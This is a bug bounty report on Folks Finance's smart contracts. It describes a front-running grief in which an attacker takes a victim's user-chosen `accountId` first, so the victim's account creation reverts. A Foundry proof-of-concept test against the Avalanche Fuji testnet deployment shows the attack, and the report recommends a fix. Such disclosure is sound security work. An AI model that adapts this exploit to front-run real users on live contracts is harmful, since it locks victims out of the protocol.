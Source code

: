 
# The account creation process can be griefed

Submitted on Mon Jul 29 2024 08:49:26 GMT-0400 (Atlantic Standard Time) by @JCN2023 for [Boost | Folks Finance](https://immunefi.com/bounty/folksfinance-boost/)

Report ID: #33779

Report type: Smart Contract

Report severity: Medium

Target: https://testnet.snowtrace.io/address/0x6628cE08b54e9C8358bE94f716D93AdDcca45b00

Impacts:
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
## Brief/Intro
An account is required to perform any core operations in the folks finance protocol. It is the user's responsibility to choose their `accountId` that will be created. A bad actor can front-run any account creation operation on the Hub chain and create an account using the `accountId` seen in any user's tx. Therefore, the bad actor is able to grief the account creation of any other user, preventing them from being able to interact with the protocol for an arbitrary amount of time.

## Bug Description
Ignoring cross-chain components, the execution flow for account creation is as follows: `SpokeCommon::createAccount -> router/adapter/hub interactions -> AccountManager::createAccount`. It is important to note that all the account state is stored on the Hub chain, so the `AccountManager` contract on the Hub chain will store the account information for all users, even if the user is interacting via a different Spoke chain.

When creating an account, a user must supply an `accountId` that will be the identifier for the account to be created:

[SpokeCommon::createAccount](https://github.com/Folks-Finance/folks-finance-xchain-contracts/blob/main/contracts/spoke/SpokeCommon.sol#L27-L33)
```solidity
27:    function createAccount(
28:        Messages.MessageParams memory params,
29:        bytes32 accountId, // @audit: user defined
30:        bytes32 refAccountId
31:    ) external payable nonReentrant {
32:        _doOperation(params, Messages.Action.CreateAccount, accountId, abi.encodePacked(refAccountId));
33:    }
```

The `accountId` is then validated to be non zero and must not have already been created:

[AccountManager::createAccount](https://github.com/Folks-Finance/folks-finance-xchain-contracts/blob/main/contracts/hub/AccountManager.sol#L35-L52)
```solidity
35:    function createAccount(
36:        bytes32 accountId,
37:        uint16 chainId,
38:        bytes32 addr,
39:        bytes32 refAccountId
40:    ) external override onlyRole(HUB_ROLE) {
41:        // check account is not already created (empty is reserved for admin)
42:        if (isAccountCreated(accountId) || accountId == bytes32(0)) revert AccountAlreadyCreated(accountId); // @audit: accountId should not be created already
43:
44:        // check address is not already registered
45:        if (isAddressRegistered(chainId, addr)) revert AddressPreviouslyRegistered(chainId, addr);
46:
47:        // check referrer is well defined
48:        if (!(isAccountCreated(refAccountId) || refAccountId == bytes32(0)))
49:            revert InvalidReferrerAccount(refAccountId);
50:
51:        // create account
52:        accounts[accountId] = true;
```

[AccountManager::isAccountCreated](https://github.com/Folks-Finance/folks-finance-xchain-contracts/blob/main/contracts/hub/AccountManager.sol#L217-L219)
```solidity
217:    function isAccountCreated(bytes32 accountId) public view override returns (bool) {
218:        return accounts[accountId]; // @audit: value is true if already created
219:    }
```

Since this `accountId` value is user defined, any bad actor can front-run other users' `createAccount` transactions and create accounts using those users' `accountId`s. This will result in the users' transactions reverting on line 42 in `AccountManager.sol`.

## Impact
A bad actor can consistently grief other users' `createAccount` transactions, preventing those users from interacting with the core components of the protocol for an arbitrary amount of time. The bad actor can lower the gas costs of this exploit by submitting their `createAccount` tx directly via the Hub chain (utilizing the `HubAdapter`) instead of interacting via a Spoke chain (triggering cross chain communications).

## Recommended Mitigation
I would recommend implementing an `accountId` state variable that is utilized and incremented every time a new account is created. This would be more gas intensive, but would limit the number of arbitrary values that users can supply to functions, which will in turn decrease the number of possible attack vectors.

        
## Proof of concept
## Proof of Concept
To run foundry POC:
- add test file to `test/` directory of a foundry repo
- add `AVAX_FUJI_RPC_URL` variable as environment var or in `.env` file
- run test with `forge test --mc FolksPOC_GriefAccountCreation`

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Test, console} from "forge-std/Test.sol";

interface IHUB {
    function accountManager() external view returns (address);
}

interface IAccountManager {
    function isAccountCreated(bytes32 accountId) external view returns (bool);
    function isAddressRegisteredToAccount(bytes32 account, uint16 chainId, bytes32 addr) external view returns (bool);
}

interface ISpoke {
    struct MessageParams {
        uint16 adapterId; 
        uint16 returnAdapterId; 
        uint256 receiverValue; 
        uint256 gasLimit; 
        uint256 returnGasLimit; 
    }

    function createAccount(MessageParams memory params, bytes32 accountId, bytes32 refAccountId) external payable;
    function createLoan(MessageParams memory params, bytes32 accountId, bytes32 loanId, uint16 loanTypeId, bytes32 loanName) external payable;
}

interface ILoanManager {
    function isUserLoanActive(bytes32 loanId) external view returns (bool);
}

interface IHubAdapter {
    function sequence() external view returns (uint256);
}

contract FolksPOC_GriefAccountCreation is Test {
    uint256 avaxTestnetFork;

    string AVAX_FUJI_RPC_URL = vm.envString("AVAX_FUJI_RPC_URL");

    address constant HUB = 0xaE4C62510F4d930a5C8796dbfB8C4Bc7b9B62140;

    address constant HUB_ADAPTER = 0xf472ab58969709De9FfEFaeFFd24F9e90cf8DbF9;

    address constant SPOKE_COMMON = 0x6628cE08b54e9C8358bE94f716D93AdDcca45b00;

    event MessageFailed(uint16 adapterId, bytes32 indexed messageId, bytes reason);

    error AccountAlreadyCreated(bytes32 accountId);

    function setUp() public {
        avaxTestnetFork = vm.createFork(AVAX_FUJI_RPC_URL);

        vm.selectFork(avaxTestnetFork);
    }

    function testGriefAccountCreation() public {
        // user address
        address user = address(0x1234);

        // bad actor address
        address badActor = address(0x69420);

        // user pre-computes their accountId
        bytes32 userAccountId = keccak256(abi.encodePacked(user));

        // user's pre-computed accountId has not been created yet
        address accountManager = IHUB(HUB).accountManager();
        bool created = IAccountManager(accountManager).isAccountCreated(userAccountId);
        assertTrue(!created);

        // bad actor sees user's tx on Hub (part of cross-chain tx or directly on Hub chain) and front-runs tx using user's accountId
        ISpoke.MessageParams memory params = ISpoke.MessageParams({ 
            adapterId: 1,
            returnAdapterId: 1,
            receiverValue: 0,
            gasLimit: 0,
            returnGasLimit: 0
        });
        
        vm.prank(badActor);
        ISpoke(SPOKE_COMMON).createAccount(params, userAccountId, bytes32(0));

        // user's pre-computed accountId has been created by the bad actor first
        created = IAccountManager(accountManager).isAccountCreated(userAccountId);
        assertTrue(created);

        // user's account creation fails since accountId has been created
        bytes32 messageId = keccak256(abi.encodePacked(bytes32("HUB_ADAPTER_V1"), IHubAdapter(HUB_ADAPTER).sequence()));
        bytes memory reason = abi.encodeWithSelector(AccountAlreadyCreated.selector, userAccountId); // error message from failed operation

        vm.startPrank(user);
        vm.expectEmit(true, false, false, true);
        emit MessageFailed(params.adapterId, messageId, reason); 
        ISpoke(SPOKE_COMMON).createAccount(params, userAccountId, bytes32(0));
        vm.stopPrank();
    }
}
```